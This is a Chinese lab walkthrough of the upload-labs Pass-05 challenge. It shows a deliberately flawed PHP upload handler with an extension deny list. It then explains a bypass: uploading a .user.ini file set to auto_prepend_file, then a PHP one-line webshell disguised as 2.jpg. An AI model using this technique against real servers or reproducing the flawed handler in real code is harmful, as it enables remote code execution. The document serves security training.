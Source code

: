 **Pass-05 文件名后缀校验（配置文件解析控制）**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

上传文件 **.user.ini**

```
auto_prepend_file=2.jpg
```

再上传一个内容为 php 一句话脚本，命名为 2.jpg。

`.user.ini` 文件作用：

所有的 php 文件都自动包含 `2.jpg` 文件。

![image-20240831102649880](https://image.201068.xyz/assets/26.文件上传/image-20240831102649880.png)



php 7.0修改`php.ini`

```
user_ini.cache_ttl = 10
```
